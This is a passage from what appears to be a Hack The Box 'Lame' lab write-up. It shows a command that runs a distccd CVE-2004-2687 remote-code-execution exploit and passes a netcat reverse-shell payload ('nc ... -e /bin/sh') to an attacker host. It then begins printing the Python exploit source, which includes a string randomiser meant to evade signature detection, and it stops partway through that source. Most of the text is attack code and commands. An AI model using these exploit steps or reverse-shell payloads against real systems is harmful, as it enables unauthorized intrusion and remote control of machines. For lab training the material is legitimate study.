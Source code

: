 	```bash
	python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 4444 -e /bin/sh"
	```

	![4](img/4.png)

=== "distccd_rce_CVE-2004-2687.py"

	```
	#!/usr/bin/python

	# -*- coding: utf-8 -*-

	'''
		distccd v1 RCE (CVE-2004-2687)
		
		This exploit is ported from a public Metasploit exploit code :
			https://www.exploit-db.com/exploits/9915

		The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

		I'm aware a Nmap script exists but for some reason I could not get it to work.

		Lame Box (HTB):
			local>nc -lvp 1403

			local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"	

			Enjoy your shell

		Jean-Pierre LESUEUR
		@DarkCoderSc
	'''

	import socket
	import string
	import random
	import argparse

	'''
		Generate a random alpha num string (Evade some signature base detection?)
	'''
	def rand_text_alphanumeric(len):
		str = ""
		for i in range(len):
			str += random.choice(string.ascii_letters + string.digits)
